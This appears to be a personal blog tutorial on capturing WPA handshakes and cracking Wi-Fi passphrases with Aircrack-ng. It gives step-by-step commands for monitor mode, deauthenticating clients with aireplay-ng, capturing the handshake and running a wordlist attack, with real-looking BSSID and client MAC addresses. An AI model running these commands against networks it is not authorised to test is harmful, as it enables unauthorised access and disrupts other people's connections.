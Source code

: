 +++
title = 'Aircrack-ng-Capturing WPA Handshakes'
date = 2025-03-28T05:18:45+01:00
draft = false
+++


Before we get started with Aircrack-ng, we need to capture a WPA 4-way handshake between the access point (AP) and a real client(pc, tablet, phone, etc). This handshake contains the necessary information to crack the passphrase (password).

---

## Step 1: Enable Monitor Mode & Identify the Target

To begin, enable monitor mode on your wireless interface (`wlan0`).

![](content/posts/Wireless%20Networking/Screenshot_2025-01-29_21-14-18%201.png)
After putting our `wlan0` interface in monitor mode, we now have an interface called `wlan0mon`. We then identify the channel of the target AP and gather its BSSID using:

```bash
sudo airodump-ng wlan0mon
```

![](content/posts/Wireless%20Networking/Screenshot_2025-02-16_23-10-49.png)

## Step 2: Capture the WPA Handshake
Our target AP is `SP***`, which operates on channel 1. Its BSSID is `C8:B5:AD:1A:5D:C2`. The `AUTH` column shows the AP uses PSK (Pre-Shared Key).

### Step 2.1: Deauthenticate the client
first, use `aireplay-ng` to deauthenticate the client. This forces the client to reconnect and triggers the WPA handshake:

```bash
sudo aireplay-ng -0 1 -a C8:B5:AD:1A:5D:C2 wlan0mon
```
the `-0` option stands for `--death`.

![](content/posts/Wireless%20Networking/Screenshot_2025-02-16_23-48-37.png)
After the deauthentication, the client reconnects, and we start  `airodump-ng` to capture the handshake:

The `airodump-ng` command on the target AP:
- Listen on channel 1 (`-c 1)
- Save packets to files with the prefix `wpa` (`-w wpa`)
- Filter by ESSID (`--essid sp***`)
- Filter by BSSID (`--bssid C8:B5:AD:1A:5D:C2`)

```bash
sudo airodump-ng -c 1 -w wpa --essid SP*** --bssid `C8:B5:AD:1A:5D:C2` wlan0mon
```

![](content/posts/Wireless%20Networking/Screenshot_2025-02-16_21-53-36.png)

A **WPA handshake** were captured, after that a client `4E:EB:06:71:D2:D3` reconnected to the AP. 
## Step 3: Crack the WPA Handshake

With the handshake captured, cracking the passphrase is straightforward. Use `aircrack-ng` with a wordlist (e.g., `/usr/share/john/password.lst`), specifying:

- `-w` for the wordlist
- `-e` for the target ESSID (`SP***`)
- `-b` for the BSSID
- The capture file (`wpa-01.cap`)

```bash
aircrack-ng -w /usr/share/john/password.lst -e SP*** -b C8:B5:AD:1A:5D:C2 wpa-01.cap
```

![](content/posts/Wireless%20Networking/Screenshot_2025-02-16_22-12-33%20(2).png)


---

